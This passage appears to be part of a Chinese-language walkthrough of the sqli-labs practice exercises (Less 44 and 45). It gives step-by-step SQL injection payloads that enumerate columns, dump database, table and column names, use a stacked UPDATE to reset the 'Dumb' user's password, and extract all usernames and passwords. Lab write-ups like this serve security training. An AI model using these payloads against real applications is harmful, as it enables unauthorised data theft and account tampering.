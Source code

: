 
> 
<h3>3.4、第三步：判断字段数/回显位</h3>
-1' union select 1,2,3#

 


> 
<h3>3.5、第四步：暴库</h3>
-1' union select 1,database(),3# 




> 
<h3>3.6、第五步：爆表名</h3>
-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()# 





<br/>  

> 
<h3>3.7、第六步：爆字段</h3>
-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'# 

 


<br/>  

> 
<h3> 3.8、第七步：堆叠注入账号</h3>
使用update更改账号密码
1';update users set password='1' where username='Dumb' #
但是它已经执行成功了

 


> 
<h3>3.9、第八步：爆数据</h3>
1' union select 1,(select(group_concat(username,password))from users),3#
原始：账号Dumb  密码Dumb

改后：账号Dumb  密码1

 


---


---


## 四、Less45（POST - Error based - String - Stacked - Blind）

> 
<h3>5.1、简介：（堆叠注入-盲注-字符型注入）</h3>
请求方法：POST
方法：堆叠注入+')闭合（字符型注入）+盲注


> 
<h3>5.2、利用：</h3>
需要闭合')

